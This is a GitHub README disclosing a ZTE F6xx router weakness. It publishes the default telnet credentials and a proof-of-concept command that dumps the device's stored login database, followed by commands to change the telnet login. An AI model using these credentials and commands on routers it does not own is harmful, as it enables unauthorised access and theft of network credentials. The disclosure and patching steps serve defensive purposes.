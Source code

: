 #  [![creatorb](https://cdn2.iconfinder.com/data/icons/software-development-glyph-black/2048/5396_-_Bug_in_Application-64.png )](https://postimg.org/image/u69xjk8nn/) ZTE F6** bug

I dont want to talk to much, it isn't how to hack wifi, all about what i am explained here it just little bug on zte f6** router devices... no crack, no break, no hack but by telnet we rock.

Required:
  - telnet
  - wifi connected

i think it can be another way to get back your lost password on gui panel of your router device.

> This bug's started
> with zte f6** default password
> username : root
> password : Zte521
> you can bypass it on telnet
> don't panic isn't someone cant access it
> if s/he isn't connected with your wifi right ?
> but can u make sure if one day no one else can access it
> your wifi, your wifi, your wifi ... our wifi

### POC
Open terminal using telnet to connect your gateway (assume: 192.168.1.1).

```sh
/ # telnet 192.168.1.1
/ # username : root
/ # password : Zte521
```

then if you already loged, try to read database user...

```sh
/ # sendcmd 1 DB p DevAuthInfo
```

thats for f609 sometimes have different table name in another devices you can see all db by:

```sh
/ # sendcmd 1 DB p
```

### Patching

Well its all will going ok
since you had known all table and value.

Change username:
```sh
/ # sendcmd 1 DB set TelnetCfg 0 TS_UName NewUserName
```

Change Password:
```sh
/ # sendcmd 1 DB set TelnetCfg 0 TS_UPwd NewPassword
```

Save:
```sh
/ # sendcmd 1 DB save
```
Reboot:
```sh
/ # reboot
```

Well its all how it going, enjoy and stay beware everywhere, btw what news here's my isp have been upgraded some device with no telnet, nice no telnet no Rock-et!


### Todos

 - Bash Checker

License
----

MIT


**Free Software, Rock Yeah!**

~ creatorbe
